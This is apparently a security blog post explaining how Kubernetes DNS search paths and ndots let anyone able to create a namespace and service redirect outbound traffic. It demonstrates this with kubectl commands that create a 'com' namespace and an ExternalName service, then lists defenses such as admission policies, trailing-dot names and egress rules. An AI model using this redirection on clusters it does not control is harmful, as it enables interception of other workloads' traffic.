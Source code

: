 +++
date = '2025-07-09T21:12:46+02:00'
title = 'DNS Hijacking in Kubernetes'
description = 'Kubernetes DNS, while convenient, harbors a security risk: a lack of understanding regarding its resolution mechanisms permits attackers to redirect cluster traffic without exploits, simply by creating specific namespaces and services. Effective protection hinges on policy, strict naming conventions, controlled permissions, and egress restrictions.'
+++

Kubernetes DNS provides a streamlined way for pods to discover one another using short, user-friendly names, 
keeping complex IP addresses out of sight. 
Yet, this very convenience can mask a significant security flaw. Without a thorough grasp of Kubernetes DNS behavior, an opening for attackers might unknowingly be created. 
Consider this: the ability to create namespaces and services allows an attacker to reroute traffic intended to leave a cluster, diverting it for their own purposes.

## How DNS Resolution Works in Kubernetes

There are three parts involved in this behavior:

* The pod’s `resolv.conf` file
* The ndots option
* The DNS search path

A typical pod's `resolv.conf` configuration often appears as follows:

```
nameserver 10.96.0.10
search default.svc.cluster.local svc.cluster.local cluster.local
options ndots:5
```

When a pod attempts to resolve a domain, such as `example.com`, the resolver notes only a single dot within the name. 
Because the `ndots` option is set to `5`, this name is not immediately treated as fully qualified. 
Instead, the resolver begins by appending domains from its configured search path. 
This process constructs and attempts to resolve the following in sequence:

1. `example.com.<pod-namespace>.svc.cluster.local`
2. `example.com.svc.cluster.local`
3. `example.com.cluster.local`

Should any of these internally constructed names resolve to an existing internal service within the cluster,
that internal result governs the connection.
Consequently, the intended external example.com receives no contact. 
This precisely defines the point where the traffic redirection, or "hijack," can commence.

## Redirecting Traffic Through Kubernetes DNS

This attack scenario unfolds simply, requiring only two steps.

### First, Observe the Default Behavior

Execute the following command:

```bash
kubectl run --rm -ti --image=alpine dns-test -- wget http://example.com -qO-
```

The response originates from the authentic external domain:

```html
<!doctype html>
<html>
  <head><title>Example Domain</title></head>
  ...
</html>
```

### Next, Prepare the Attack

Create a namespace named `com` and a service named `example`. This service directs traffic to an unexpected endpoint:

```bash
kubectl create namespace com

kubectl create service externalname example \
  --namespace com \
  --external-name=wttr.in
```

### Run the Same Command Again

```bash
kubectl run --rm -ti --image=alpine dns-test -- wget http://example.com -qO-
```

This time, the result no longer corresponds to the example domain. 
Instead, it presents the weather forecast from `wttr.in`.

```
Weather report: Frankfurt am Main, Germany

     \  /       Partly cloudy
   _ /"".-.     +22(24) °C
     \_(   ).   ↘ 7 km/h
     /(___(__)  10 km
                0.0 mm
```

So what happened?

* The resolver did not interpret `example.com` as a complete address.
* It subsequently attempted to resolve `example.com.svc.cluster.local`.
* Given that name now held validity, the request routed inside the cluster.
* The pod perceived itself as reaching an external service, yet its communication never exited the cluster boundaries.

## How To Protect Your Cluster

Addressing this vulnerability does not involve a simple patch.
Instead, robust control requires a combination of stringent policy and heightened awareness.

Effective strategies include:

* **Securing External Connections with HTTPS:** Of course, consistently employing HTTPS for external connections secures the data payload. This practice encrypts communication and validates server identity, thereby mitigating man-in-the-middle attack consequences even when traffic redirection occurs.

* **Prohibiting Namespace Names Matching Top-Level Domains:**
  Implement admission controllers, such as OPA or [Kyverno](https://kyverno.io/),
  to reject namespace names that parallel top-level domains like `com`, `org`, `io`, and similar designations.

* **Mandating Fully Qualified Domain Names in Applications:** Always append a trailing dot to domain names within applications. For instance, employ `example.com.`. This explicit addition signals to the resolver that the name stands complete, preventing any further appending of search path elements.

* **Limiting Namespace Creation Permissions:** Grant permissions for namespace creation sparingly, restricting this capability to trusted users and automated systems. Many deployments do not necessitate this privilege outside of platform automation processes.

* **Restricting Egress Traffic with Network Policies:** Establish a default stance of denying all outgoing traffic. Subsequently, explicitly permit connections only to verified destinations, specifying them by IP address or fully qualified domain name.

## Concluding Remarks

Kubernetes DNS offers significant power and straightforward operation;
however, that very simplicity sometimes presents a vulnerability. 
A thorough understanding of how names resolve within a cluster proves essential. 
Without such comprehension, an attacker exploits these default behaviors, redirecting traffic in unforeseen ways.

Any individual possessing the ability to create a namespace, 
and a service gains the means to interpose their infrastructure between a pod and the internet.
Significantly, they achieve this without requiring a single exploit.
